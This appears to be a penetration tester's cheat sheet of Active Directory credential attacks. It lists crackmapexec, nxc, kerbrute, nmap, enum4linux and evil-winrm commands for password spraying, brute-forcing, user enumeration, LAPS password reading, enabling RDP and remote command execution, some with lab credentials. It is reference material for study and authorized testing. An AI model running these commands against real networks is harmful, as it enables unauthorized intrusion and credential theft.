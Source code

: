 # Credentials

## **SMB**

crackmapexec smb targetip (port 135, 139 or 445)

### crackmapexec

{% code overflow="wrap" %}
```bash
crackmapexec smb <target_ip> -u <username> -p <password>
crackmapexec smb <target_ip> -u <username> -p <password> --shares
crackmapexec smb 192.168.1.1-100 <range IPs> -u <username> -p <password> --shares
crackmapexec smb <target_ip> -u userslist -p passwordlist --shares

crackmapexec smb 10.10.10.1 -u 'john' -p 'password123' --groups --local-groups --loggedon-users --rid-brute --sessions --users --shares --pass-pol

# enable rdp
crackmapexec smb IP -u user -p pass -M rdp -o ACTION=enable
#spider_plus is a carackmapexec module used in the smb section to copy all files paths into a json file
crackmapexec smb <target_ip> -u <username> -p <password> -M spider_plus
#to show content 
crackmapexec smb 192.168.1.50 -d wargrey.mon -u Administrator -p h3ckt0r -x “more filepath”

crackmapexec smb 10.10.144.122 -u users -p /usr/share/wordlists/rockyou.txt --continue

```
{% endcode %}

## **LDAP**

```bash
#Testing if account exist without kerberos protocol
crackmapexec ldap 192.168.1.0/24 -u users.txt -p '' -k
#Testing credentials
crackmapexec ldap 192.168.1.0/24 -u user -p password
crackmapexec ldap 192.168.1.0/24 -u user -H A29F7623FD11550DEF0192DE9246F46B
#Identify Trust Relationships And Direction
crackmapexec ldap <ip> -u user -p pass -M enum_trusts

```

## WINRAM or Use  nxc

{% code overflow="wrap" %}
```bash
#Identify Trust Relationships And Direction
crackmapexec ldap <ip> -u user -p pass -M enum_trusts
#Password spraying (without brute force)
crackmapexec winrm 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce

#Testing credentials
crackmapexec winrm 192.168.1.0/24 -u user -p password

#If the SMB port is closed you can also use the flag -d DOMAIN to avoid an SMB connection
crackmapexec winrm 192.168.1.0/24 -u user -p password -d DOMAIN
#Execute Command using WinRM
crackmapexec winrm 192.168.255.131 -u user -p 'password' -X whoami
#if we meet server 2012 or less, maybe the server has a local administrator with the password you can use  --laps refer to  local administrator password solution
crackmapexec winrm <ip> -u user-can-read-laps -p pass --laps
```
{% endcode %}

```bash
nxc winrm 10.10.175.105 -u 'j.rock' -p 'Serviceworks1'
nxc smb 10.10.175.105 -u 'j.rock' -p 'Serviceworks1'
nxc smb  10.10.205.80 -u ' guest' -p '' --rid-brute | grep 'SidTypeUser'
```

### Nmap&#x20;

{% code overflow="wrap" %}
```bash
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN'" <IP>
Nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='<domain>',userdb=/root/Desktop/usernames.txt <IP>
```
{% endcode %}

{% hint style="info" %}
if we don't join in Domain >> use nslookup
{% endhint %}

### nslookup

{% code overflow="wrap" %}
```bash
nslookup <ip you want> <ip DNS>
#we can use this script to extract data as Like Name (computer name or Client) and (ip)
for /L %i in (1,1,255) do @nslookup 192.168.1.%i <ip DNS> 2>null | find "Name" && echo 192.168.1.%i
```
{% endcode %}

### enum4linux

```bash
enum4linux -a -u "user" -p "password" <DC IP>
```

{% code overflow="wrap" %}
```bash
./kerbrute_linux_amd64 userenum -d lab.ropnop.com --dc 10.10.10.10 usernames.txt #From https://github.com/ropnop/kerbrute/releases
./kerbrute_linux_amd64 -domain <domain_name> -users <users_file> -passwords <passwords_file> -outputfile <output_file>

```
{% endcode %}

### smbmap

### Find Domain Controller IP

```bash
nslookup -type=SRV _ldap._tcp.dc._msdcs.deathstar.rfs
```

### evil-Winrm

```
evil-winrm -u j.rock@services.local -p Serviceworks1 --ip 10.10.175.105
```

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>
